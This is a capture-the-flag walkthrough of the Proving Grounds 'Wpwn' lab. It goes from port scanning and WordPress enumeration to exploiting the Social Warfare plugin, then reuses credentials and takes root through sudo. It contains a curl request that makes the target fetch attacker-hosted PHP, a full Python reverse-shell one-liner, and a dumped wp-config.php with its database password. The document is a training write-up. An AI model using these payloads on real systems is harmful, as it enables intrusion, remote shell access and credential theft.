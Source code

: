 ```yaml
---
title: Wpwn
categories: [Proving Grounds Play]
tags: [PrivEsc, RFI, Wordpress]
image:
  path: https://www.offsec.com/astro-assets/labs/image-2.svg
  alt:  Wpwn Machine 🖥️
---
```



### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Wpwn/Untitled.png)

```bash
IP : 192.168.249.141
```
{: .nolineno}

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/wpwn]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.141
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-26 03:32 EDT
Stats: 0:00:09 elapsed; 0 hosts completed (0 up), 0 undergoing Script Pre-Scan
NSE Timing: About 0.00% done
Nmap scan report for 192.168.249.141
Host is up (0.00073s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59b7dbe0ba6376afd0200311e13c0e34 (RSA)
|   256 2e20567584ca35cee36a21321fe7f59a (ECDSA)
|_  256 0d02838b1a1cec0fae74cc7bda12899e (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site does not have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 00:0C:29:E5:DB:C0 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Wpwn/Untitled%201.png)

Now I found wordpress in this site so lets dig into it with `wpscan tool` →

![Untitled](/Vulnhub-Files/img/Wpwn/Untitled%202.png)

Now I found an exploit related to social warfare on github →

[https://github.com/shad0w008/social-warfare-RCE](https://github.com/shad0w008/social-warfare-RCE)

I Followed this path and got this →

![Untitled](/Vulnhub-Files/img/Wpwn/Untitled%203.png)

When I loaded this url →

```bash
curl http://192.168.249.141/wordpress/wp-admin/admin-post.php?rce=id&swp_debug=load_options&swp_url=http://192.168.249.128:8888/rcshell.php
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Wpwn/Untitled%204.png)

as I got the value of id so lets use this LFI to get a local privilege Escalation →

 I used python reverse shell command →

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.249.128",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Wpwn/Untitled%205.png)

Lets see wp-config.php file →

```bash
www-data@wpwn:/var/www/html/wordpress$ cat wp-config.php
cat wp-config.php                                                                                                              
<?php                                                                                                                          
/**                                                                                                                            
 * The base configuration for WordPress                                                                                        
 *                                                                                                                             
 * The wp-config.php creation script uses this file during the                                                                 
 * installation. You do not have to use the web site, you can                                                                   
 * copy this file to "wp-config.php" and fill in the values.                                                                   
 *                                                                                                                             
 * This file contains the following configurations:                                                                            
 *                                                                                                                             
 * * MySQL settings                                                                                                            
 * * Secret keys                                                                                                               
 * * Database table prefix                                                                                                     
 * * ABSPATH                                                                                                                   
 *                                                                                                                             
 * @link https://wordpress.org/support/article/editing-wp-config-php/                                                          
 *                                                                                                                             
 * @package WordPress                                                                                                          
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress_db' );

/** MySQL database username */
define( 'DB_USER', 'wp_user' );

/** MySQL database password */
define( 'DB_PASSWORD', 'R3&]vzhHmMn9,:-5' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Do not change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 ...

www-data@wpwn:/var/www/html/wordpress$ cd /home
cd /home
www-data@wpwn:/home$ ls
ls
takis
www-data@wpwn:/home$ cd takis
cd takis
www-data@wpwn:/home/takis$ ls -al
ls -al
total 32
drwxr-xr-x 3 takis takis 4096 Aug 17  2020 .
drwxr-xr-x 3 root  root  4096 Aug 17  2020 ..
-rw------- 1 takis takis   59 Aug 17  2020 .bash_history
-rw-r--r-- 1 takis takis  220 Aug 17  2020 .bash_logout
-rw-r--r-- 1 takis takis 3526 Aug 17  2020 .bashrc
drwxr-xr-x 3 takis takis 4096 Aug 17  2020 .local
-rw-r--r-- 1 takis takis  807 Aug 17  2020 .profile
-rw-r--r-- 1 root  root    33 Aug 17  2020 user.txt
www-data@wpwn:/home/takis$ cat user.txt 
cat user.txt
04ebbbf5e6e298e8fab6deb92deb3a7f
www-data@wpwn:/home/takis$
```
{: .nolineno}

Now lets use that password and try to get the takis shell →

```bash
www-data@wpwn:/home/takis$ su takis
su takis
Password: R3&]vzhHmMn9,:-5
/bin/bash -i
bash: cannot set terminal process group (556): Inappropriate ioctl for device
bash: no job control in this shell
takis@wpwn:~$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
takis@wpwn:~$
```
{: .nolineno}

Now lets see what takis can do to lead us to root →

```bash
takis@wpwn:~$ sudo -l
sudo -l
Matching Defaults entries for takis on wpwn:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User takis may run the following commands on wpwn:
    (ALL) NOPASSWD: ALL
takis@wpwn:~$ sudo /bin/bash -i
sudo /bin/bash -i
root@wpwn:/home/takis# cd /root
cd /root
root@wpwn:~# whoami
whoami
root
root@wpwn:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@wpwn:~# ls -al
ls -al
total 32
drwx------  3 root root 4096 Aug 17  2020 .
drwxr-xr-x 18 root root 4096 Aug 17  2020 ..
-rw-------  1 root root 1812 Aug 17  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 Aug 17  2020 .local
-rw-------  1 root root  215 Aug 17  2020 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   87 Aug 17  2020 root.txt
root@wpwn:~# cat root.txt
cat root.txt
damn, i really do not know where i left the root.txt flag, take a look into my USB plz.
root@wpwn:~#
```
{: .nolineno}

I found the USB from the `.bash _history` →

```bash
root@wpwn:/usr/games/USB# ls
ls
root
root@wpwn:/usr/games/USB# cat root
cat root
19905b045801f04e96d803659ad987ce

-gamer over
root@wpwn:/usr/games/USB#
```